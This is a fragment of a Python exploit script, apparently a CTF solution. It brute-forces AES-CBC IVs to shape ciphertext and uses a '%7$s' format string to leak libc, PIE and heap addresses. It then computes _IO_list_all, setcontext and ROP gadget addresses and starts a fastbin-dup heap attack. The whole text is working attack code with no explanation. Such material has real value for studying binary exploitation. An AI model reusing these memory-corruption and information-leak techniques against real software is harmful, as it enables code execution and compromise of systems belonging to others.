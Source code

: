 ```python
def search_iv(pt, key):
    ct = 'dummy'
    while (hexlify(ct)[-2] != '0'):
        random_iv = os.urandom(0x10)
        cipher = AES.new(key, AES.MODE_CBC, random_iv)
        ct = cipher.encrypt(pt)
    return ct, random_iv

# search good ct and iv
ct, random_iv = search_iv(pt, key)

# hexed ct
payload = hexlify(ct)

# strip "0"
payload = payload[:-2] + payload[-1]

# now payload length is 0x1f
change(1, payload, random_iv)

r.recvuntil('new name:')
leak = int(r.recvuntil('\xff\xff')[:-2], 16)
dbg('leak')
base = leak - 0x20840
dbg('base')
leak = int(r.recvuntil('\xff\xff')[:-2], 16)
dbg('leak')
pie = leak - 0x1a30
dbg('pie')


# leak heap
bss = pie + 0x203098
pt = '%7$sAAAA'
pt += p64(bss).strip('\x00')
pt += '\x02'*2

ct, random_iv = search_iv(pt, key)
payload = hexlify(ct)
payload = payload[:-2] + payload[-1]
change(1, payload, random_iv)

r.recvuntil('new name:')
leak = u64(r.recvuntil('AAAA')[:-4]+'\x00'*2)
dbg('leak')
heap = leak - 0x2490
dbg('heap')

io_list_all = base + 0x3c5520
setcontext = base + 0x47b50+0x35

syscall = base + 0x000bc3f5
rax = base + 0x0003a737
rdi = base + 0x0013e302
rsi = base + 0x0012ee05
rdx = base + 0x00115166

# make fastbindup with 0x70 sized chunk
conceal(3, 0x50, 'AAAA')
conceal(4, 0x50, 'BBBB')

remove(4)
remove(3)
```